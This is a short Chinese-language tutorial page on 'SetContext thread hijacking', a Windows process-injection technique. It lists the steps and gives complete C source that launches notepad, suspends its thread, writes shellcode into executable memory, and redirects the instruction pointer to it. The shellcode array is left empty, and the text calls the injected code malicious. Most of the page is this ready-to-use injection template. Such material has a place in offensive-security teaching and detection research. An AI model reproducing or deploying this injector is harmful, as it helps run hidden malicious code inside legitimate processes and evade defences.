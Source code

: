 # SetContext Hijack Thread

## 简介

通常对于代码注入我们有很多种方式，现在这种方式原理与大部分注入方式技术原理相差不大，通常都是想尽办法让进程去执行我们自定义的代码，比如我们最经典的创建一个远程线程，入口点指定我们写入的代码，或者在程序执行流程上插桩，让正常进程去帮我们执行代码，这次介绍的方式比较暴力，直接劫持cpu的rip或eip指针，使其直接指向我们的恶意代码。

## 注入流程

1. 打开或创建一个进程。
2. 挂起其中一个线程。
3. 分配并写入shellcode。
4. 更改rip指针指向shellcode。
5. 恢复挂起线程。

## 实现代码

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = "";
;
int main(){
	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);

	PROCESS_INFORMATION pi = {0};

	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
	SuspendThread(pi.hThread);
	LPVOID lpBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pi.hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL);
	CONTEXT ctx = { 0 };
	ctx.ContextFlags = CONTEXT_ALL;
	GetThreadContext(pi.hThread, &ctx);
	ctx.Rip = (DWORD64)lpBuffer;
	SetThreadContext(pi.hThread, &ctx);
	ResumeThread(pi.hThread);
	return 0;
}
```

![](../.gitbook/assets/image%20%28108%29.png)

## LINKS

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext" %}



